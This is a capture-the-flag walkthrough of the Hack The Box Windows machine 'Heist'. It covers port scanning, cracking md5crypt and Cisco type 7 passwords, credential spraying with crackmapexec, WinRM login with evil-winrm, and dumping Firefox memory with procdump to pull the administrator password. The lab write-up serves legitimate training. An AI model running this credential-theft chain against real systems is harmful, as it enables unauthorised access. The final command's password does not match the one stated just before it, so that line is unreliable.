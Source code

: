# Box Name: Heist
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.96.157 -p- -v -T4```

```
Nmap scan report for 10.129.96.157
Host is up (0.40s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49669/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Randomized
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-10T19:48:09
|_  start_date: N/A
|_clock-skew: -1s

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   339.57 ms 10.10.16.1
2   340.07 ms 10.129.96.157

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 10 20:48:49 2023 -- 1 IP address (1 host up) scanned in 436.02 seconds
```
From our nmap scan we have quite a number of ports opened. We'll start our enumeration today from port 80



# Enumeration (Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2bc80794-25ca-4678-a4fb-5ca4fb869bb6)

We get this login page. Since we don't have any creds lets login as guest

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/58e61a19-7993-42ce-bdbf-8c6d4c00e149)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d10915da-73c3-4987-bd9a-f3993ec38178)

Nice, this is a conversation between user ```Hazard``` and the ```admin```. 

Lets check out the configuration file user ```Hazard``` sent.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ce07dae4-06f7-4a39-96f6-d0f0e693bc2f)

From the above screenshot we can see encrypted passwords for users ```Hazard```, ```rout3r``` and ```admin```.

Lets try to crack the first password

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ nano hash                                                        
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt            
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)     
1g 0:00:01:07 DONE (2023-10-10 21:09) 0.01479g/s 51878p/s 51878c/s 51878C/s stealthy001..stcroix85
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ cat hash
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```
We got the password to be ```stealth1agent```. Lets try gain access using winrm

command:```evil-winrm -u hazard -i 10.129.96.157 -p 'stealth1agent' -S```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/84a4e6da-f73f-4053-8bf5-7fc5578fc32d)

oops, it didn't work

Lets try to crack the type 7 passwords. I used this online [tool](https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html) for it

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4d258bd0-7e89-40bd-8ef3-da86a9befa38)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8ece8d10-6f19-45d5-8f7d-6559deaea12f)

We now have 3 passwords, lets enumerate for potential users

We can try to enumerate users from the smb share using crackmapexec

command:```crackmapexec smb 10.129.94.141 -u hazard -p stealth1agent --rid-brute```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b270dc27-6a75-47cd-8fad-70cdb37fc033)

We now have potential users.

Save the users and passwords in different files, we'll use crackmapexec to get a match we can use to login via winrm

command:```crackmapexec winrm 10.129.94.141 -u users.txt -p passwords.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e8ffff8c-6d52-4417-b959-d454035fecd2)

We got a match, now lets login with winrm

username:```chase```        password:```Q4)sJu\Y8qz*A3?d```

command:```evil-winrm -u chase -i 10.129.94.141 -p "Q4)sJu\Y8qz*A3?d"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/18e837e5-3695-4a51-849f-9418a416e3b1)

We got user shell hehe. Lets go ahead and escalate our privileges



# Privilege Escalation

Running the ```ps``` command to check the processes running

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d6d43f37-4ccf-4210-b6ac-680a1fa34a73)

From the above screenshot we can see ```firefox``` to be one of the processes running

Lets try to dump the process using the tool ```procdump```. You can download it [here](https://download.sysinternals.com/files/Procdump.zip)

We'll upload this to the target's machine

command:```upload procdump.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dc1db26a-3f6a-42f4-bdc3-c2df787ec936)

Nice, we can use the PID of firefox to create this dump

command:```.\procdump.exe -accepteula -ma 4120```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/997e143e-31f7-4047-bce6-a209d020c16b)

So after creating the dump, I downloaded it to my machine using the ```download``` command

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ ls           
Eula.txt  Procdump.zip  firefox.exe_231011_124132.dmp  hash  heist  passwords.txt  procdump.exe  procdump64.exe  procdump64a.exe  users.txt
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ file firefox.exe_231011_124132.dmp                                                                               
firefox.exe_231011_124132.dmp: Mini DuMP crash report, 18 streams, Wed Oct 11 07:11:32 2023, 0x461826 type
```
Now, lets look for creds

command:```strings firefox.exe_231011_124132.dmp| grep "password"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/466acabe-3802-4b09-a250-ddd05224e40f)

nice nice, we got the admin password. 

Now, lets use winrm to connect

username:```administrator```      password:```4dD!5}x/re8]FBuZ```

command:```evil-winrm -u administrator -i 10.129.94.141 -p "4dDpwd}x/re8]FBuZ"```




























